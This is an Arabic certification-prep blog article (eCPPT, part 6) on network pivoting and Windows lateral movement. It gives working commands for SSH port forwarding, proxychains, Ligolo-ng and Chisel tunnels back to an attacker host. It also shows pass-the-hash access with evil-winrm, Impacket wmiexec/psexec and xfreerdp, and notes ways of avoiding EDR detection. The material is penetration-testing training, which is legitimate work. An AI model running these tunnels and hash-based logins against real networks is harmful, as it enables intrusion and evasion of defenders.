

في معظم اختبارات الاختراق الواقعية، وفي بيئة امتحان شهادة **eCPPT** تحديدًا، لا يقع الخادم المستهدف أو خادم قاعدة البيانات الحساسة على شبكة مكشوفة للإنترنت. بل يتم عزل البنية التحتية خلف جدران نارية صارمة وتقسيم شبكي متعدد الطبقات (Network Segmentation & DMZ).

هنا تبرز المهارة الحاسمة الأكثر أهمية لاجتياز اختبار eCPPT: **القفز الشبكي والتوجيه (Pivoting & Port Forwarding)**. في هذا الجزء، سنفكك المنهجية الكاملة لتحويل أي جهاز مخترق يمتلك واجهتي شبكة (Dual-Homed Host) إلى جسر عبور يتيح لنا مهاجمة واستكشاف الشبكات الداخلية المعزولة وكأننا متصلون بها سلكيًا!

---

### جدول التنقل في السلسلة (Series Navigation)

| **المقال السابق** | **المقال الحالي** | **المقال القادم** |
| :---: | :---: | :---: |
| [الجزء 5: تصعيد الصلاحيات على Windows و Linux](/posts/ecppt-v3-part-5-privilege-escalation-playbook/) | **الجزء 6: الحركة الجانبية والقفز الشبكي (Pivoting)** | [الجزء 7: خوادم القيادة والتحكم (C2 Frameworks)](/posts/ecppt-v3-part-7-command-and-control-c2/) |

---

## أبرز النقاط الرئيسية (Key Takeaways)

* **سيناريو الجهاز ثنائي الواجهات (Dual-Homed Pivot)**: عند اختراق خادم في المنطقة منزوعة السلاح (DMZ) يمتلك واجهة شبكة عامة (10.10.10.x) وواجهة داخلية أخرى (172.16.1.x)، يصبح هذا الخادم نقطة ارتكاز (Pivot) للوصول إلى الشبكات الخلفية المعزولة.
* **أنفاق SSH الثلاثية الأساسية**:
  * **التوجيه المحلي (`-L`)**: لفتح منفذ محلي على جهاز المهاجم والاتصال بخدمة داخلية على شبكة الضحية.
  * **التوجيه البعيد (`-R`)**: لفتح منفذ على جهاز الضحية وتوجيهه إلى أداة أو مستمع (Listener) على جهاز المهاجم.
  * **التوجيه الديناميكي (`-D`)**: لإنشاء وكيل SOCKS4/5 كامل وتوجيه كافة أدوات الفحص عبر `proxychains`.
* **ثورة Ligolo-ng في التوجيه الشبكي**: بدلاً من المعاناة مع بطء واختناقات `proxychains` وسقوط أدوات مثل Nmap، تتيح أداة **Ligolo-ng** إنشاء واجهة افتراضية كاملة (TUN Interface) على جهاز المهاجم، مما يسمح بتشغيل كافة أدوات الفحص والأوامر ضد الـ Subnet الداخلي مباشرة كأنه متصل محليًا!
* **بروتوكولات الحركة الجانبية (Lateral Movement Protocols)**: استخدام بروتوكولات الإدارة الشرعية في ويندوز مثل **WinRM** (منفذ 5985/5986)، **WMI** (منفذ 135)، و **SMB** (منفذ 445) للتحرك أفقيًا بين الأجهزة دون تنبيه أنظمة مكافحة الفيروسات.

---

## 1. طوبولوجيا الشبكة متعددة الطبقات (Enterprise Multi-Tier Topology)

يوضح المخطط التالي السيناريو النموذجي لاختبار eCPPT، حيث يقبع بنك البيانات في أعمق طبقة معزولة:

```mermaid
flowchart LR
    Attacker["جهاز المهاجم<br/>(Kali Linux: 10.10.14.5)"]
    Firewall1["الجدار الناري الخارجي<br/>(Firewall 1)"]
    DMZ["خادم الويب في الـ DMZ<br/>NIC1: 10.10.10.50<br/>NIC2: 172.16.1.10 (Pivot 1)"]
    Firewall2["الجدار الناري الداخلي<br/>(Firewall 2)"]
    InternalServer["خادم التطبيقات الداخلي<br/>NIC1: 172.16.1.20<br/>NIC2: 192.168.100.5 (Pivot 2)"]
    Firewall3["جدار حماية قواعد البيانات<br/>(Firewall 3)"]
    DBServer[("خادم قاعدة البيانات المعزول<br/>IP: 192.168.100.50")]

    Attacker -->|اتصال مباشر| Firewall1
    Firewall1 --> DMZ
    DMZ -->|نفق نفق Pivot 1| Firewall2
    Firewall2 --> InternalServer
    InternalServer -->|نفق مزدوج Double Pivot 2| Firewall3
    Firewall3 --> DBServer
```



---

## 2. احتراف أنفاق SSH (SSH Port Forwarding Deep-Dive)

إذا امتلكنا صلاحيات وصول أو حساب SSH على خادم الـ DMZ (Pivot 1):

```mermaid
flowchart TD
    subgraph LocalForward ["1. Local Port Forwarding (ssh -L)"]
        direction LR
        L_Attacker["المهاجم: 127.0.0.1:8080"] -->|نفق مشفر| L_Pivot["خادم Pivot"] -->|اتصال عادي| L_Target["الهدف الداخلي: 172.16.1.50:80"]
    end
    
    subgraph RemoteForward ["2. Remote Port Forwarding (ssh -R)"]
        direction LR
        R_Target["محطة الضحية الداخلية"] -->|اتصال بالمنفذ 4444| R_Pivot["خادم Pivot: المنفذ 4444"] -->|إعادة توجيه داخل النفق| R_Attacker["مستمع المهاجم: 10.10.14.5:4444"]
    end
    
    subgraph DynamicForward ["3. Dynamic SOCKS Proxy (ssh -D)"]
        direction LR
        D_Tools["أدوات الفحص (Proxychains)"] -->|SOCKS5 Proxy| D_Attacker["127.0.0.1:9050"] -->|نفق ديناميكي| D_Pivot["خادم Pivot"] -->|استكشاف أي IP وأي منفذ| D_Net["الشبكة الداخلية بأكملها 172.16.1.0/24"]
    end
```



### الأوامر التكتيكية لأنفاق SSH:

#### 1. التوجيه المحلي (Local Port Forwarding):
للوصول إلى واجهة ويب خادم داخلي (172.16.1.50:80) عبر متصفح جهاز المهاجم:
```bash
ssh -N -f -L 8080:172.16.1.50:80 user@10.10.10.50
# الآن نفتح في المتصفح: http://127.0.0.1:8080
```

#### 2. التوجيه البعيد (Remote Port Forwarding):
عندما نكون بصدد استغلال جهاز في الشبكة المعزولة ويحتاج الـ Reverse Shell للرجوع لجهاز المهاجم:
```bash
# على جهاز الـ Pivot: نفتح منفذ 4444 ونوجهه لجهاز المهاجم 10.10.14.5
ssh -N -f -R 4444:10.10.14.5:4444 attacker@10.10.14.5
```

#### 3. التوجيه الديناميكي مع Proxychains (Dynamic SOCKS5):
```bash
ssh -N -f -D 9050 user@10.10.10.50
```

نقوم بضبط ملف إعدادات الوكيل `/etc/proxychains4.conf`:
```text
# في نهاية الملف:
socks5 127.0.0.1 9050
# تفعيل proxy_dns لمنع تسريب استعلامات النطاق:
proxy_dns
```

الآن يمكن تشغيل أي أداة عبر الوكيل:
```bash
proxychains nmap -sT -Pn -p 22,80,445 172.16.1.50
proxychains crackmapexec smb 172.16.1.0/24
```

---

## 3. القفز الشبكي الحديث فائق السرعة عبر Ligolo-ng

رغم قوة SOCKS و Proxychains، إلا أنهما يعانيان من عيوب قاتلة: بطء شديد، عدم دعم حزم ICMP / UDP بشكل صحيح، وسقوط جلسات Nmap المتزامنة. أداة **Ligolo-ng** المبنية بلغة Go حلت هذه المشكلة جذريًا عبر إنشاء واجهة TUN برمجية (Layer 3 Routing).



### خطوات تشغيل Ligolo-ng الميدانية:

#### 1. على جهاز المهاجم (Kali Linux):
```bash
# إنشاء وتفعيل واجهة TUN
sudo ip tuntap add user $(whoami) mode tun ligolo
sudo ip link set ligolo up

# تشغيل خادم البروكسي
./proxy -selfcert -laddr 0.0.0.0:11601
```

#### 2. على الجهاز المخترق (Pivot Host):
```cmd
# على خادم ويندوز أو لينكس:
agent.exe -connect 10.10.14.5:11601 -ignore-cert
```

#### 3. تفعيل التوجيه على جهاز المهاجم:
في واجهة Ligolo التفاعلية:
```text
ligolo-ng » session
[1] User@PIVOT-PC
ligolo-ng » start
[+] Starting tunnel to agent...
```

ثم من نافذة Terminal أخرى على Kali:
```bash
# توجيه شبكة 172.16.1.0/24 عبر واجهة ligolo
sudo ip route add 172.16.1.0/24 dev ligolo

# الآن يمكنك فحص واستهداف الشبكة مباشرة وبسرعة فائقة:
ping 172.16.1.50
nmap -sS -Pn 172.16.1.0/24
```

---

## 4. أنفاق Chisel عبر بروتوكول HTTP/WebSockets

إذا كان الجدار الناري يحظر كافة المنافذ الصادرة باستثناء منفذ تصفح الويب (Port 80 أو 443)، فإن أداة **Chisel** تضمن لك تمرير نفق TCP كامل مشفر ومغلف داخل ترويسات بروتوكول HTTP/WebSockets لتخطي فحص الجدران النارية:

```bash
# 1. على جهاز المهاجم: تشغيل خادم Chisel مع نفق عكسي
chisel server --reverse --port 8000

# 2. على خادم الضحية (Pivot): الاتصال بالخادم وفتح وكيل SOCKS5
chisel client 10.10.14.5:8000 R:1080:socks
```

الآن يُفتح وكيل SOCKS5 على المنفذ `1080` في جهاز كالي، ويمكن توجيه حركة المرور فورًا!

---

## 5. تقنيات الحركة الجانبية في بيئات ويندوز (Lateral Movement Playbook)

بمجرد فتح النفق إلى الشبكة الداخلية، نبدأ باستهداف الأجهزة المجاورة باستخدام بيانات الاعتماد التي جمعناها سابقًا:

### 1. عبر Evil-WinRM (منفذ 5985 HTTP / 5986 HTTPS)
يعد الخيار الأكثر تفضيلاً لأنه يستغل خدمة إدارة ويندوز عن بعد (WinRM)، ولا يولد عمليات غريبة ترصدها أنظمة EDR، ويوفر Shell باورشيل حقيقي:

```bash
evil-winrm -i 172.16.1.50 -u Administrator -H 7fc07bbe74664a7726da442b439aa4b5
```

### 2. عبر Impacket WMIExec (منفذ 135 RPC / 445 SMB)
يتميز WMI بأنه لا ينشئ خدمة جديدة على الجهاز الضحية، بل يستدعي أسلوب `Win32_Process.Create` لتنفيذ الأمر بصمت تام:

```bash
wmiexec.py -hashes :7fc07bbe74664a7726da442b439aa4b5 Administrator@172.16.1.50 "whoami && ipconfig"
```

### 3. عبر Impacket PsExec (منفذ 445 SMB)
يقوم بإنشاء خدمة مؤقتة (`PSEXESVC`) لرفع الصلاحيات مباشرة إلى `NT AUTHORITY\SYSTEM`:

```bash
psexec.py -hashes :7fc07bbe74664a7726da442b439aa4b5 Administrator@172.16.1.50
```

### 4. عبر بروتوكول سطح المكتب البعيد RDP مع Pass-the-Hash
إذا كانت سياسة النطاق تسمح بخاصية Restricted Admin Mode، يمكن الدخول لواجهة سطح المكتب الرسومية باستخدام الهاش دون الحاجة لكلمة المرور الصريحة:

```bash
xfreerdp /v:172.16.1.50 /u:Administrator /pth:7fc07bbe74664a7726da442b439aa4b5 /cert:ignore
```

---

## المراجع والمصادر الخارجية (References & Further Reading)

1. **Ligolo-ng High-Performance Pivoting Repository**: [https://github.com/nico-cha/ligolo-ng](https://github.com/nico-cha/ligolo-ng)
2. **Chisel: Fast TCP/UDP Tunnel over HTTP by Jaime Pillora**: [https://github.com/jpillora/chisel](https://github.com/jpillora/chisel)
3. **Evil-WinRM: The Ultimate WinRM Shell by Hackplayers**: [https://github.com/Hackplayers/evil-winrm](https://github.com/Hackplayers/evil-winrm)
4. **RFC 4251: The Secure Shell (SSH) Protocol Architecture**.
5. **MITRE ATT&CK Matrix**:
   * Technique T1090: Proxy (Multi-hop Proxies, External/Internal Proxies)
   * Technique T1021: Remote Services (SMB/Windows Admin Shares, WinRM, RDP)

---

*Author: Abdulrahman M. Fathi (0x3bdo) • Cyber Security Engineer & Penetration Tester*
